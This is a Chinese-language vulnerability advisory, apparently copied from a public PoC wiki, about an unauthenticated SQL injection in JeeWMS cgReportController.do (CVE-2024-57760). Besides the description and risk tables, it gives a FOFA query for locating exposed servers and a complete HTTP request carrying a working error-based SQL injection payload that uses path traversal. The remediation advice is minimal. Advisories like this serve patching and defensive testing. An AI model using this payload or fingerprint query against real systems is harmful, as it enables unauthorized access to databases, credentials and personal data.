

# JeeWMS cgReportController.do SQL注入漏洞(CVE-2024-57760)

# 漏洞描述

JeeWMS cgReportController.do 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

# 影响版本

v2025.01.01之前版本

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="url:userController.do?userOrgSelect&userId=" && "loginController.do?changeDefaultOrg"

POC/EXP：

GET /rest/../cgReportController.do?datagrid&configId=%27+AND+GTID_SUBSET%28CONCAT%280x7178627a71%2C%28SELECT+%28ELT%284503%3D4503%2C1%29%29%29%2C0x717a6a6b71%29%2C4503%29--+wnMN HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

# 漏洞修复

关注厂商官网动态，及时更新补丁信息。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
